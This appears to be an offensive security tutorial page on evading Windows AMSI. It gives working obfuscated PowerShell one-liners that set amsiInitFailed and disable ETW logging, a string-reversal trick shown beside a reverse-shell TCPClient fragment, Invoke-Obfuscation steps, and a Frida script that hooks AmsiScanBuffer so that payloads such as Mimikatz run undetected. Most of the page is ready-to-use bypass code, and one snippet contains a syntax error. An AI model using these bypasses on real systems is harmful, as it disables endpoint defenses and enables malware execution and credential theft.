

The **Antimalware Scan Interface (AMSI)** is a Windows security feature that allows applications and scripts to be scanned by an antivirus (like Windows Defender) before execution. Attackers must bypass or obfuscate their code to execute malicious PowerShell payloads.

<Callout type="info" title="MITRE ATT&CK Mapping">
* [T1562.001 - Impair Defenses: Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/)
* [T1027 - Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027/)
</Callout>




---

## 1. AMSI Detection Analysis (AMSITrigger)

<Callout type="warning" title="What is AMSITrigger?">
**AMSITrigger** is a PowerShell tool designed to identify exactly which specific strings or code segments in a script are flagged by AMSI. It breaks down scripts into smaller chunks and feeds them to AMSI to pinpoint the problematic signatures.
</Callout>

<AccordionGroup>
  <Accordion title="Usage & Flags">
    ```text
    -i, --inputfile=VALUE       Powershell filename
    -u, --url=VALUE             URL eg. https://10.1.1.1/Invoke-NinjaCopy.ps1
    -f, --format=VALUE          Output Format:
       1 - Only show Triggers
       2 - Show Triggers with Line numbers
       3 - Show Triggers inline with code
       4 - Show AMSI calls (xmas tree mode)
    -d, --debug                 Show Debug Info
    -m, --maxsiglength=VALUE    Maximum signature Length to cater for, default=2048
    -c, --chunksize=VALUE       Chunk size to send to AMSIScanBuffer, default=4096
    -h, -?, --help              Show Help
    ```
  </Accordion>
  <Accordion title="Example Execution">
    ```powershell
    PS > AmsiTrigger.exe -i C:\Users\hacker\Doc\invokemimi.ps1
    ```
    
    
  </Accordion>
</AccordionGroup>

---

## 2. Manual Obfuscation (String Reversal)

<Callout type="tip" title="Reversing Strings to Evade Signatures">
By reversing class names or strings, we can bypass simple signature-based detections. We use regex in PowerShell to reverse the string back at runtime.
</Callout>

<Tabs>
  <Tab title="Example 1: Reversing System.AppDomain">
    ```powershell
    $String = 'niamoDppA.MetSys'
    $classrev = ([regex]::Matches($String,'.'),'RightToLeft') | ForEach {$_.Value}) -join ''
    AppDomain = [Reflection.Assembly].Assembly.GetType("$classrev").GetProperty('CurrentDomain').GetValue($null,@())
    ```
  </Tab>
  <Tab title="Example 2: Reversing Net.Sockets">
    
    ```powershell
    $String = "stekCoS.teN"
    $class = ([regex]::Matches($String,'.','RightToLeft') | % {$_.value}) -join ''
    if ($Reverse) {
        $client = New-Object System.$class.TCPClient($IPAddress,$Port)
    }
    ```
  </Tab>
</Tabs>

---

## 3. Automated Obfuscation (Invoke-Obfuscation)

<Callout type="info" title="Using Invoke-Obfuscation">
**Invoke-Obfuscation** is a framework to help obfuscate PowerShell code to avoid detection by signature-based antivirus and AMSI.
</Callout>

<CardGroup cols={1}>
  <Card title="Invoke-Obfuscation GitHub" href="https://github.com/danielbohannon/Invoke-Obfuscation" icon="github">
    Official repository for the Invoke-Obfuscation framework.
  </Card>
</CardGroup>

```powershell
PS > import-module Invoke-Obfuscation.psd1
PS > Invoke-Obfuscation
# Inside the tool:
SET SCRIPTPATH /home/adolf/Desktop/reversecod.ps1
ENCODING
1
# OR
AST
ALL
1
```

---

## 4. AMSI Memory Patching (PowerShell)

<Callout type="danger" title="Forcing AMSI to Fail in Memory">
Instead of obfuscating the payload, attackers directly patch the `amsi.dll` memory space in the PowerShell process to force `AmsiScanBuffer` to always return "Clean".
</Callout>

<Tabs>
  <Tab title="Bypass 1 (Standard AMSI Patch)">
    ```powershell
    S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  )  )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
    ```
  </Tab>
  <Tab title="Bypass 2 (ETW/PSEtwLogProvider Patch)">
    ```powershell
    [Reflection.Assembly]::"l`o`AdwIThPa`Rti`AlnamE"(('S'+'ystem'+'.C'+'ore'))."g`E`TTYPE"(('Sys'+'tem.Di'+'agno'+'stics.Event'+'i'+'ng.EventProv'+'i'+'der'))."gET`FI`eLd"(('m'+'_'+'enabled'),('NonP'+'ubl'+'ic'+',Instance'))."seTVa`l`Ue"([Ref]."a`sSem`BlY"."gE`T`TyPE"(('Sys'+'tem'+'.Mana'+'ge'+'ment.Aut'+'o'+'mation.Tracing.'+'PSEtwLo'+'g'+'Pro'+'vi'+'der'))."gEtFIe`Ld"(('e'+'tw'+'Provid'+'er'),('N'+'o'+'nPu'+'b'+'lic,Static'))."gE`Tva`lUe"($null),0)
    ```
  </Tab>
</Tabs>

<CardGroup cols={1}>
  <Card title="Invisi-Shell Resource" href="https://github.com/OmerYa/Invisi-Shell" icon="github">
    Resource used for these memory patching techniques.
  </Card>
</CardGroup>

---

## 5. Dynamic AMSI Bypass using Frida (Advanced)

<Callout type="danger" title="Bypassing AMSI with Frida (API Hooking)">
**Frida** is a dynamic instrumentation toolkit. Instead of patching memory statically, we can inject a JavaScript snippet into the PowerShell process to hook the `AmsiScanBuffer` function in `amsi.dll`. When the function is called, Frida intercepts it, changes the result to `AMSI_RESULT_CLEAN` (0), and lets the malicious script run.
</Callout>

<Steps>
  <Step title="Step 1: Install Frida">
    ```bash
    pip3 install frida-tools
    ```
  </Step>
  <Step title="Step 2: Create the Frida Script (`bypass_amsi.js`)">
    *This script hooks `AmsiScanBuffer` and modifies the return result.*
    ```javascript
    var AMSI_RESULT_CLEAN = 0;
    var amsi = Module.findBaseAddress("amsi.dll");
    var AmsiScanBuffer = Module.findExportByName("amsi.dll", "AmsiScanBuffer");
    
    Interceptor.attach(AmsiScanBuffer, {
        onEnter: function (args) {
            // Optional: Log what is being scanned
            // var scanBuffer = args[0].readUtf16String();
            // console.log("AMSI Scanning: " + scanBuffer);
        },
        onLeave: function (retval) {
            // Force the result to be "Clean" (0)
            retval.replace(AMSI_RESULT_CLEAN);
            console.log("[+] AMSI Bypassed via Frida! Result set to CLEAN.");
        }
    });
    ```
  </Step>
  <Step title="Step 3: Execute PowerShell with Frida">
    *Spawn a new PowerShell process with the Frida agent injected.*
    ```bash
    frida -n powershell.exe -l bypass_amsi.js
    # Or spawn a 64-bit PowerShell directly:
    frida -f C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe -l bypass_amsi.js
    ```
    <Callout type="tip">
    *Once the PowerShell prompt opens via Frida, any script you run will be scanned by AMSI, but Frida will silently intercept the scan and return a clean result, allowing your payload (like Mimikatz or reverse shells) to execute.*
    </Callout>
  </Step>
</Steps>
